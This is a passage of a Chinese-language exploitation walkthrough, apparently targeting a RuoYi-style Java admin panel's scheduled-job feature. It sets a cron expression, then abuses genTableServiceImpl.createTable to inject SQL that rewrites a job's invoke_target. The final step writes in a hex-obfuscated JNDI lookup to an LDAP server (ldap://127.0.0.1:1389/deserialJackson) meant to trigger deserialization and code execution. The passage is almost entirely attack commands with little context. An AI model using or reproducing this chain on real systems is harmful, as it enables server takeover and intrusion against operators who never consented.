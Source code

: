 <table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1.11111px solid rgb(216, 222, 228);"><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1.11111px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">分钟</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">小时</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">日</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">月</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">星期</span></section></td></tr></tbody></table>  
```
* * * * * ?
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoic7GfP3orjDbAI3YiaJl3SyoZmsaYsM8nvdl0jXAXxkGOnqlrFlicDujuw/640?wx_fmt=png&from=appmsg "")  
  
第二步：  
修改执行命令  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicP4PoyicuOYibat8X2atMIrGzjt9NqSVzyl7mOXS4I4cakhLC3vloBjAA/640?wx_fmt=png&from=appmsg "")  
  
第三步：  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')
```  
  